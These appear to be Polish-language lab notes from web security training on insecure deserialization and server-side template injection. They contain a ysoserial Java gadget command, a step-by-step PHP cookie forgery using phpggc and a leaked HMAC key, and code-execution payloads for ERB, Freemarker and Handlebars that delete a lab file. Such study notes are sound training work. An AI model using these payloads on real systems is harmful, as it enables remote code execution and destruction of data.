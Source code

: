 ## Java
```
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 > file.txt
```
- tworzy dane zserializowane wykonujące daną komendę


### Lab: Exploiting PHP deserialization with a pre-built gadget chain
1. Jako cookie mamy: `{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJwYjhyaTRoanV4Z2N4Zjg3NWhkdHVnYWtoenBnenozZyI7fQ==","sig_hmac_sha1":"5cb7fbbf74d7f2378516e66ab7b6000df40b94bd"}`
2. Kiedy spojrzymy na wartość tokenu okazuje się, że oznacza ona: `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"pb8ri4hjuxgcxf875hdtugakhzpgzz3g";}`
3. Na stronie w komentarzu znajdujemy informacje o ścieżce do pliku php_info.php
4. W środku znajdujemy `SECRET_KEY`, okazuje się, że `sig_hmac_sha1` to podpisana wartość tokenu tym właśnie kluczem
5. W momencie błedu widać, że wykorzystywany jest framework o nazwie `[Symfony Version: 4.3.6]`
6. Generujemy payload za pomocą funkcji: `phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64`
7. token podmieniamy na tę wartość, a następnie tworzymy skrót `hmac-sha1` i dodajemy jego wynik za `sig_hmac_sha1`
8. Wysyłamy cały payload i działa

# SERVER-SIDE TEMPLATE INJECTION
## Testy:
```
${{<%[%'"}}%\
http://vulnerable-website.com/?username=${7*7}
```
## Payloady:
### Freemaker
```
<%= system("rm morale.txt") %> -> RUBY ERC
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm morale.txt")} -> Freemaker
```

### handlebars
```
    wrtz{{#with "s" as |string|}}
        {{#with "e"}}
            {{#with split as |conslist|}}
                {{this.pop}}
                {{this.push (lookup string.sub "constructor")}}
                {{this.pop}}
                {{#with string.split as |codelist|}}
                    {{this.pop}}
                    {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                    {{this.pop}}
                    {{#each conslist}}
                        {{#with (string.sub.apply 0 codelist)}}
                            {{this}}
                        {{/with}}
                    {{/each}}
                {{/with}}
            {{/with}}
        {{/with}}
    {{/with}} -> handlebars
```